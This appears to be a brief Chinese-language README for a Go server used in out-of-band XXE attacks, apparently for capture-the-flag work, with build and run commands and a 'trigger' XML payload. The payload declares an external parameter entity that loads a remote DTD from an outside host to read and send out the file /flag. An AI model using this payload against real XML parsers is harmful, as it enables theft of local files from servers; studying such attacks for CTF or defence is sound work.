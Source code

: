 ### 编译

`go build`

### 运行

`go run xxeserver.go`

默认监听0.0.0.0:8888


触发语句
```xml
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://192.168.1.102:9991/xml?f=/flag">
%remote;
%int;
%trick;]>
```

